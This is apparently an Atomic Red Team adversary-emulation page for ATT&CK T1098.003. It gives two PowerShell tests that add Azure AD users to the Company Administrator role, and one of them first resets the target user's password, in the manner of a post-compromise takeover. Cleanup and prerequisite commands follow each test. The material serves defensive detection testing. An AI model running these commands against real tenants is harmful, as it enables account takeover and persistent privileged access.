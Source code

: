 # T1098.003 - Account Manipulation: Additional Cloud Roles

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/003)

<blockquote>An adversary may add additional roles or permissions to an adversary-controlled cloud account to maintain persistent access to a tenant. For example, adversaries may update IAM policies in cloud-based environments or add a new global administrator in Office 365 environments.(Citation: AWS IAM Policies and Permissions)(Citation: Google Cloud IAM Policies)(Citation: Microsoft Support O365 Add Another Admin, October 2019)(Citation: Microsoft O365 Admin Roles) With sufficient permissions, a compromised account can gain almost unlimited access to data and settings (including the ability to reset the passwords of other admins).(Citation: Expel AWS Attacker)
(Citation: Microsoft O365 Admin Roles)

This account modification may immediately follow [Create Account](https://attack.mitre.org/techniques/T1136) or other malicious account activity. Adversaries may also modify existing [Valid Accounts](https://attack.mitre.org/techniques/T1078) that they have compromised. This could lead to privilege escalation, particularly if the roles added allow for lateral movement to additional accounts.

For example, in AWS environments, an adversary with appropriate permissions may be able to use the <code>CreatePolicyVersion</code> API to define a new version of an IAM policy or the <code>AttachUserPolicy</code> API to attach an IAM policy with additional or distinct permissions to a compromised user account.(Citation: Rhino Security Labs AWS Privilege Escalation)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure AD - Add Company Administrator Role to a user](#atomic-test-1---azure-ad---add-company-administrator-role-to-a-user)

- [Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role](#atomic-test-2---simulate---post-bec-persistence-via-user-password-reset-followed-by-user-added-to-company-administrator-role)

<br/>

## Atomic Test #1 - Azure AD - Add Company Administrator Role to a user

Add an existing Azure user account the Company Administrator Role.

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 4d77f913-56f5-4a14-b4b1-bf7bb24298ad

#### Inputs:

| Name        | Description                                                  | Type   | Default Value    |
| ----------- | ------------------------------------------------------------ | ------ | ---------------- |
| username    | Azure AD username                                            | string | jonh@contoso.com |
| password    | Azure AD password                                            | string | p4sswd           |
| target_user | Name of the user who will be assigned the Company Admin role | string | default          |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module MSOnline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:

```powershell
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```

#### Dependencies: Run with `powershell`!

##### Description: MSOnline module must be installed.

##### Check Prereq Commands:

```powershell
try {if (Get-InstalledModule -Name MSOnline -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name MSOnline -Force
```

<br/>
<br/>

## Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role

This test looks at simulating the an adversary described in the following blog post. It involves resetting the password of a normal user and adding to the company administrator role within M365.
Reference: https://www.huntress.com/blog/business-email-compromise-via-azure-administrative-privileges

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 14f3af20-61f1-45b8-ad31-4637815f3f44

#### Inputs:

| Name            | Description                                                           | Type   | Default Value    |
| --------------- | --------------------------------------------------------------------- | ------ | ---------------- |
| auth_username   | Azure AD username used to conduct the adversary activity              | string | jonh@contoso.com |
| auth_password   | Azure AD password for user auth_username                              | string | p4sswd           |
| target_user     | Name of the user whose password be reset and added to the admin role. | string | default          |
| target_password | The password that the user target_user will be reset to.              | string | Ohn05GeMe#$      |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module MSOnline
Import-Module AzureAD
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
$targetsecurepw = ConvertTo-SecureString -String "#{target_password}" -AsPlainText -Force
Connect-MsolService -Credential $credential -ErrorAction:SilentlyContinue
Connect-AzureAD -Credential $credential -ErrorAction:SilentlyContinue

#Saving the ObjectId of the target_user into a variable
$target_objid = Get-AzureADUser -filter "userPrincipalName eq '#{target_user}'" | Select-Object -ExpandProperty ObjectId

#Reset the password of the target_user
Set-AzureADUserPassword -ObjectId  $target_objid -Password $targetsecurepw -ErrorAction:SilentlyContinue

#Adding target_user
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
Add-MsolRoleMember -RoleName "Global Reader" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:

```powershell
Import-Module MSOnline
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-MsolService -Credential $credential
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
Remove-MsolRoleMember -RoleName "Global Reader" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```

#### Dependencies: Run with `powershell`!

##### Description: MSOnline and AzureAD modules must be installed.

##### Check Prereq Commands:

```powershell
$required_mods = 'AzureAD', 'MSOnline'
$installed_mods = @((Get-Module $required_mods -ListAvailable -ErrorAction SilentlyContinue).Name  | Select-Object -Unique)
$notInstalled = Compare-Object $required_mods $installed_mods -PassThru -ErrorAction SilentlyContinue

if ($notInstalled) {
# Prompt for installing the missing ones.
Write-Output "The following PS modules aren't currently installed:"
$notInstalled
  exit 1
}

 else{
  Write-Output "All required PS modules are installed"
  exit 0
 }
```

##### Get Prereq Commands:

```powershell
Install-Module -Name MSOnline -Scope CurrentUser -Force
Install-Module -Name AzureAD -Scope CurrentUser -Force
```

<br/>
